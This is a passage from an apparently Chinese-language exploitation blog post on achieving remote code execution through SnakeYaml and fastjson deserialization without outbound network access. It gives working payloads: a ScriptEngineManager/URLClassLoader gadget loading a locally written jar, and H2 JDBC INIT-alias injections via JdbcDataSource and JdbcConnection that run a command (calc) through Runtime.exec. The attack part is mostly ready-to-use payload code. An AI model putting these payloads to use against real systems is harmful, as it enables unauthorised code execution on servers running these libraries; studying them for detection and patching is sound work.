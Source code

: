 这个方式进行写文件有个非常好的好处。就是因为zlib压缩的存在，可以写任何形式的文件，包括普通的文本文件和二进制文件。

### 联动ScriptEngineManager

联动ScriptEngineManger POC达到写文件后加载jar的姿势。完成不出网的RCE

```yaml
!!javax.script.ScriptEngineManager [!!java.net.URLClassLoader [[!!java.net.URL ["file:///success.jar"]]]]
```

另外，SnakeYaml可以无限制调用构造函数，那么可以用ClassPathXmlApplicationContext进行spEL注入，当然，这种手法也需要连接外网，如果无法连接外网，也需要通过写文件再读取的方式进行利用

## 不出网H2 JDBC

update at 2025.4.15 phith0n大师傅对HertzBeat中SnakeYaml反序列化不出网的拓展。详情请直接移步https://www.leavesongs.com/PENETRATION/jdbc-injection-with-hertzbeat-cve-2024-42323.html

jdk>=11，有h2database的情况下，能打h2 JDBC Attack

fastjson>=1.2.36可以通过$ref调用getter，如果目标有h2database的依赖，可以通过调用org.h2.jdbcx.JdbcDataSource#getConnection打h2database的jdbc attack

![image-20250417122145100](https://typora-202017030217.oss-cn-beijing.aliyuncs.com/typora/image-20250417122145100.png)

```json
[
    {
        "@type": "java.lang.Class",
        "val": "org.h2.jdbcx.JdbcDataSource"
    },
    {
        "@type": "org.h2.jdbcx.JdbcDataSource",
        "url": "jdbc:h2:mem:test;MODE=MSSQLServer;INIT=drop alias if exists exec\\;CREATE ALIAS EXEC AS 'void exec() throws java.io.IOException { Runtime.getRuntime().exec(\"calc\")\\; }'\\;CALL EXEC ()\\;"
    },
    {
        "$ref": "$[1].connection"
    }
]
```

>一般来说代码里的h2 jdbc attack是用`DriverManager.getConnection(JDBC_Url, username, password);`触发的，但是有参，不符合getter的调用

又因为org.h2.jdbcx.JdbcDataSource#getConnection实际上是调用的JdbcConnection构造函数，在snakeYaml中就很有用武之地了，snakeYaml打h2 jdbc：

```yaml
!!org.h2.jdbc.JdbcConnection [ "jdbc:h2:mem:test;MODE=MSSQLServer;INIT=drop alias if exists exec\\;CREATE ALIAS EXEC AS $$void exec() throws java.io.IOException { Runtime.getRuntime().exec(\"calc.exe\")\\; }$$\\;CALL EXEC ()\\;", {}, "a", "b", false ]
```
